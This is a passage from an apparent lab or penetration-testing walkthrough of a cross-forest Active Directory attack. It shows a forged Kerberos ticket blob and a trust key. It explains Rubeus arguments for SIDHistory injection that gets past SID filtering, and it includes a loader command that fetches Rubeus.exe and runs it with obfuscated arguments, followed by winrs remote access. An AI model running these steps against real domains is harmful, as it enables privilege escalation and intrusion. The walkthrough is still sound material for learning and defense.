doIFTzCCBUugAwIBBaEDAgEWooIESDCCBERhggRAMIIEPKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBAgwggQEoAMCARKhAwIBA6KCA/YEggPyHXXz9s57/ZjbqthMCEedUvxpq92shkWvxf/2mYniNoFC0Ua8vkn8GEtYJJEMoUOwWLgPLLJUydSBSCmgxjjSaZiVpem5vcvGJwAfLnzGW0MBPp7oer/LWZNVt0uDjNZYbKy+9dSWj1WOPHIxzxke4zIMKBp7z2XCrbCBuKewMBmqsgqpz4QfHBer8RteGl4Q6QySiabF1C8rM4ue6m03twLs25Fiv1f2pCG8gpbn9at2YYNRmjDVcrRRgVFzQx1kG0mBgvGSRirjYRumaAhVf7hk48ojOKZjMz/5RBIhYO3TKTcEhPrBuJYqkF5tsWgnIbknjjzeFj1CZb8gobDOsd+FZSNjOLoUthZxJPpToAl7VR5jEZcG2pgRQtiiEMeqoAKN9h0D/neZ41lHXdoJhBo8LDUHG2J8jV3oYNPkceyaF0kQToClSSXBFCQMlrc7BbNDY3LGI94+vCEHlWH+/8plw3jEec0+qn7YLV0em6MDAYvKXW63BKaQIp0Zyo6eJHOM2i3Z03kk8LqhW23/Z3xXQaZHLTEopsnfd7KFGuLvUcsVvzk0kGoeTXrTO+gxoOJ4P4zOSAWCohUpoBHKP2HaMr+1365ltjYaZJdgPgWtQkQ6eTg3hMhgR7J2eEXv/z15TqRA13MjAe5kte5Mknu3YdwlbcZye+SqZaLboum7QYteTyafBcptGJCNM/NjBHiA0juH6KdvlLoSVsmDZ5oelRtz7oCLSiOXWWoTLhE/g4KJZAKPI0roF/4PmBpRqGBkuRabNs04VcdZSfn/rMTszcdzGAtoxV2iZ8tRzjUrtws0RNExH5lLz8QsqDl5JKJcVORqihmgZUrgBVAYSKrBQP2WGF/vpVXgM2usBnvYkDY0ctYvY1MOOwr3pncE6ijQC/4E10p18AeJ4eu8zS8g0fiBvkB7T+LEhDkmyK7ZeWv7hXdSAUbKlH5Ir6/OY/Z58hiEuszlbFIXcfcaUDsEnkCly4svAa/imVT92Ye/yZv0JsIOP154JwSbFfPnqmwAQkltEff8ECP5h+oBYkl7mjQiJ46+RtbHZDa2S3sWnJ6T4sfLgy4JgNKIzh4EchhTJLycvtLdqBO0+V8SEftasFe+4EVRWKIu8cJSY5D9Ra71YvNLLSoP0x9v7qffogYJ0/w744ciDYWlsIc2Sdtnmc0pBQU1Sk0YVbKxTHtaR+AS7s5KhIqxy0XqBR37RI1mVPkBhghDgTrTNhTJ5IzIVspDRj86JLWSnVEF4KbCsJVzuO02lYvH1qLRnqOniDllubtj0Rpvt/thNbVAgQyZuJt+H9MXZjT29qUIwnIrhrYlhe6OMG1+37QZ2isd/JejgfIwge+gAwIBAKKB5wSB5H2B4TCB3qCB2zCB2DCB1aArMCmgAwIBEqEiBCATN/kWbtS5Yy8THpl7ZheVA1Df2NhUO90qVcEl5wyjYqEKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDWFkbWluaXN0cmF0b3KjBwMFAECgAACkERgPMjAyNTAyMjAyMzAzMzhapREYDzIwMjUwMjIwMjMwMzM4WqYRGA8yMDI1MDIyMTA5MDMzOFqnERgPMjAyNTAyMjcyMzAzMzhaqAobCEVVLkxPQ0FMqR0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbA==
`
%Pwn%: This is just a placeholder for the encoded string "silver," which tells Rubeus that we are forging a Silver Ticket (service ticket)./user:administrator: The username we are impersonating. This is the user that will appear in the forged ticket./ldap: The service we are targeting. This is the SPN (Service Principal Name), meaning we are forging a ticket for the LDAP service on the target domain./service:krbtgt/eu.local: The target service account we are impersonating. This is the krbtgt account for the eu.local domain because we are forging a ticket that will act within this domain./aes256:2c8c05ef394af2aa26aac788c26970dff4308059f9acaa4494d37ee068a65486: This is the trust key (AES256 key) used in the inter-realm trust betweeneu.localandeuvendor.local. It allows us to forge a valid cross-forest ticket that will be accepted across the trust boundary./sids:S-1-5-21-4066061358-3942393892-617142613-1103: This is the SID we are injecting into the SIDHistory attribute. It represents the EUAdmins group (RID 1103) from theeuvendor.localdomain. Since RIDs >= 1000 bypass SID Filtering, this injection makes us appear as a member of EUAdmins ineuvendor.local./nowrap: This is a cosmetic flag that removes the line wrapping in the Rubeus output, making it easier to read.
This combination results in a forged service ticket (Silver Ticket) for the LDAP service in eu.local, containing SIDHistory for the EUAdmins group from euvendor.local. This should give us elevated access when interacting with resources in euvendor.local if the SID injection works successfully.
Requesting a Service Ticket for euvendor-net
Using the inter-realm TGT that we created above, the next step is to request a TGS for the HTTP service on the euvendor-net machine. This will allow us to check if our injected SID History grants us access to this specific service. The goal here is to see if our impersonation of a privileged group, such as EUAdmins, is effective and gives us the necessary permissions to interact with the target machine. Successfully obtaining the TGS will validate that our SID History injection is working as intended, and it will enable us to proceed with accessing the service or performing further actions on euvendor-net using the privileges associated with EUAdmins.
This is a crucial step in confirming our access level within the euvendor.local domain.
We should encode the Rubeus argument(asktgs) with ArgSplit.bat and do the copy/paste into our session were Rubeus will be executed.
ArgSplit.bat

Running Rubeus.
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:http/euvendor-net.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:

We can now confirm that we were able to request the Ticket Granting Service ticket and imported it to our session using the klist command.
klist

After forging the inter-realm TGT and injecting the SID History for the EUAdmins group (RID 1103), we had to request a Service Ticket (TGS) for euvendor-net because the TGT alone does not provide direct access to resources. We can now access the euvendor-net inside euvendor.local forest using winrs.
winrs -r:euvendor-net.euvendor.local cmd
